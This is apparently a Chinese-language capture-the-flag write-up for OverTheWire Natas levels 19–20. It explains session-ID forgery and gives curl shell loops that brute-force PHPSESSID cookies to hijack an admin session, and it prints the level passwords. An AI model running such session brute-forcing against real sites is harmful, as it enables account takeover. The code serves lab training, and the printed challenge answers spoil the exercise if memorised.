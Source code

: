 xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

## 19.


此题是考查SessionID伪造漏洞

通过BurpSuite-Intruder Attack模块设置字典1-640进行暴力破解

```sh
#!/bin/sh

for i in `seq 640` 
do
    echo $i
    curl -isu natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP http://natas18.natas.labs.overthewire.org/  --cookie "PHPSESSID=$i" | grep natas19
done
```

当PHPSESSID=138时，获得natas19密码

4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

## 20.

随便输入username和password，抓包观察PHPSESSID，发现是输入的信息，按照password-username的格式，由ascill码转化为16进制，猜测正确PHPSESSID，应该是id-admin，用python构造字典，burp抓包后使用intruder模块，导入字典后进行暴力破解。

```sh
#!/bin/sh

#for i in `seq 37 39`
#do
    #for j in `seq 30 39`
    #do
        #for k in `seq 30 39`
        #do
            #echo $i  $j  $k

            i=35
            j=30
            k=31
            #echo "PHPSESSID=${i}${j}${k}2d61646d696e"
            curl -isu  natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs http://natas19.natas.labs.overthewire.org --cookie "PHPSESSID=${i}${j}${k}2d61646d696e" | grep -A 3 "natas20"
        #done
    #done
#done
```

当PHPSESSID=38392d61646d696e时，得到key。
Key：eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

## 21.
 
